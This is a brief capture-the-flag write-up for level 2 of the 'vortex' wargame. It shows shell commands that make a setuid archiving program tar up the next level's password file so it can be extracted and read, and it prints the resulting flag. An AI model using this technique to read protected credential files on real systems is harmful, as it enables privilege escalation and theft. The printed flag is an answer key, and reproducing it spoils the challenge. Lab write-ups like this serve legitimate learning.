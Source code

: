 # vortex level2 Solution

in this level, we exploit the tar archive by archiving `vortex3` password file, and when extracting, we can read it.

```
cd /etc/vortex_pass/
/vortex/vortex2 vortex3
tar xvf /tmp/ownership.$\$.tar
```

![image](./images/level2.png)

**Flag:** ***`YAVzRBMI4`*** 
